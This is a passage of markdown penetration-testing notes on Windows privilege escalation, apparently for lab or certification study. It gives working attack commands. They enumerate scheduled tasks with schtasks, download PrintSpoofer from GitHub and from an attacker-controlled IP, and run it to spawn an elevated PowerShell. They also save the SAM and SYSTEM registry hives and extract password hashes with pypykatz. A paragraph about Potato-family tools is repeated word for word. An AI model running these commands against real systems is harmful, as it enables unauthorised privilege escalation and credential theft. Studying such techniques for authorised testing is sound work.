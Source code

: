 powerup fails you can use this
```
Import-Module .\PowerUp.ps1
```

### Scheduled Tasks

```

    As which user account (principal) does this task get executed?
    What triggers are specified for the task?
    What actions are executed when one or more of these triggers are met?
```

get list of scheduled tasks
```
schtasks /query /fo LIST /v

schtasks /query /fo LIST /v | findstr "Taskname"
```

### Using Exploits

can abuse SEImpersonatePrivilege through named pipes
```
whoami /priv
```

can use PrintSpoofer to elevate privileges
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe


powershell
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

 Variants from the Potato9 family (for example RottenPotato, SweetPotato, or JuicyPotato) are such tools. We should take the time to study these tools as they are an effective alternative to PrintSpoofer. Variants from the Potato9 family (for example RottenPotato, SweetPotato, or JuicyPotato) are such tools. We should take the time to study these tools as they are an effective alternative to PrintSpoofer.

also lookfor the privilege `SEBackupPrivilege` can be in the following steps

https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
then transfer files to kali and use pypykatz to get hash
```
pypykatz registry --sam sam system
```
